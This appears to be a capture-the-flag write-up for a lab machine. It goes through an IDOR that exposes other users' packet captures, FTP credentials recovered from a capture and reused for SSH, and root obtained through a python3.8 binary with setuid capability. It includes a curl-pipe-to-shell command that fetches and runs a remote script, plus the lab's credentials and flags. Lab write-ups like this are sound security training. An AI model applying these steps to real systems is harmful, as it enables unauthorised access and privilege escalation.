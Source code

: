 ```yaml
---
sticker: emoji//1f9e2
---
```


# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![](cybersecurity/images/Pasted%2520image%252020250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![](cybersecurity/images/Pasted%2520image%252020250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![](cybersecurity/images/Pasted%2520image%252020250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![](cybersecurity/images/Pasted%2520image%252020250107161617.png)

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:

![](cybersecurity/images/Pasted%2520image%252020250107162125.png)


Now we have packets to read! Let's download the file and analyze it with wireshark:

![](cybersecurity/images/Pasted%2520image%252020250107162221.png)

```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![](cybersecurity/images/Pasted%2520image%252020250107163040.png)

We found something useful!

A ftp string, let's follow it:

![](cybersecurity/images/Pasted%2520image%252020250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![](cybersecurity/images/Pasted%2520image%252020250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![](cybersecurity/images/Pasted%2520image%252020250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![](cybersecurity/images/Pasted%2520image%252020250107163700.png)

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![](cybersecurity/images/Pasted%2520image%252020250107163815.png)


Let's use linpeas in this machine and check what it got for us:

![](cybersecurity/images/Pasted%2520image%252020250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![](cybersecurity/images/Pasted%2520image%252020250107164142.png)

Nice, when linpeas finishes, we can see the following:

![](cybersecurity/images/Pasted%2520image%252020250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----
![](cybersecurity/images/Pasted%2520image%252020250107165038.png)

We can also see this procedure in Gtfobins:

![](cybersecurity/images/Pasted%2520image%252020250107165210.png)

```

Just like that, CTF is done, let's read root flag and submit it:

![](cybersecurity/images/Pasted%2520image%252020250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!

